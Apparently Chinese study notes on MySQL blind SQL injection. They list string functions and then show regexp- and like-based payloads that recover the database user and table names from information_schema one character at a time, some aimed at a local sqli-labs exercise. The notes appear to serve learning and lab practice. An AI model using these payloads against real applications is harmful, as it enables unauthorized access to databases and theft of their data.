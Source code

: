     left(a,b) 从左侧截取a的前b位  
    right(a,b) 从右侧截取a的前b位  
    substr(a,b,c) 从b位置,将字符串a截取c的长度  
    mid(a,b,c) 从b位置,将字符串a截取c的长度  
    ascii() 将字符转换为ascii  
    ord()同ascii()一样  
  
  
  
### repexp正则注入  

用法`select user() regexp '^[a-z]'`  
第二位可以用`select user() regexp '^ro'`  
当正确的时候显示结果为1,不正确的是时候结果为0  

    select * from users where id=1 and 1=(if((user() regexp '^r'),1,0))  
    select * from users where id=1 and 1=(user() regexp '^r')  
^是从开头进行匹配,$是从结尾开始匹配

详细信息[http://www.cnblogs.com/yyccww/p/6054579.html](http://www.cnblogs.com/yyccww/p/6054579.html)
  
  
### 通过if语句的条件判断,返回一些条件句,比如if构造一个判断.根据返回结果是否等于0或者等于1进行判断  

    select * from users where id=1   
    and 1=(select 1 from   
    information_schema.tables   
    where table_schema='secrity' and   
    table_name regexp '^us[a-z]' limit 0,1)  
  
### like匹配注入  
和上述的正则类似,mysql在匹配的时候我们可以用like进行匹配  
  
用法 `select user() like 'ro%'`  

    http://127.0.0.1/sqli/Less-5/?id=1' and user() like 'eo%'--+

----

## SQL盲注之正则攻击

我们都已经知道，在 MYSQL 5+ 中 information_schema 库中存储了所有的 库名，表明以及字段名信息。故攻击方式如下：

1. 判断第一个表名的第一个字符是否是 a-z 中的字符 , 其中 blind_sqli 是假设已知的库名。

> 注：正则表达式中 ^[a-z] 表示字符串中开始字符是在 a-z 范围内

    index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*

2. 判断第一个字符是否是 a-n 中的字符
```
index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*
```

3. 确定该字符为 n
```
index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*
```
